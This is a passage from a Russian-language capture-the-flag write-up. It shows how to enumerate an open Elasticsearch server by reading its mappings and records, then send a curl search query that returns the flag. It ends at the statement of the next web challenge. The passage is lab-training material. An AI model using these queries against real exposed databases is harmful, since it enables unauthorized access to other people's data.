 ![](https://i.imgur.com/KgwIdHY.png)

Находим, что для получения типа нам нужно указать параметр `include_type_name=true`

Тогда наш новый запрос - http://109.233.56.93:9200/flag/_mappings?include_type_name=true
```
{
  "flag" : {
    "mappings" : {
      "post" : {
        "properties" : {
            ...
```

Наш маппинг `post`, прямо как и в статье!

Дело за малым, идем на `/flag/post/1?pretty` и получаем одну запись:
```
{
  "_index" : "flag",
  "_type" : "post",
  "_id" : "1",
  "_version" : 1,
  "_seq_no" : 0,
  "_primary_term" : 1,
  "found" : true,
  "_source" : {
    "title" : "Flag may be here",
    "content" : "well, not here"
  }
}
```
Теперь осталось перебрать все записи и найти флаг!

Но можно и поступить проще - сделать поисковой запрос (`ElasticSearch` предназначен для поиска как-никак!)

Отправим данный запрос
```
curl -XGET -H 'Content-Type: application/json' "http://109.233.56.93:9200/flag/post/_search?pretty" -d'
{
  "_source": true,
  "query": {
    "match": {
      "content": "CYBERTHON"
    }
  }
}'
```
и получим флаг.


## 3. Anime advisor (1) (web)
### Условие:
```
Мой знакомый разрабатывает сайт "для своих". Я туда, конечно, заходить не собираюсь, но вы проверьте, достаточно ли он защищен.

P.S В данном задании два флага. (последний символ флага в данном задании - S)
```
http://109.233.56.93:5001

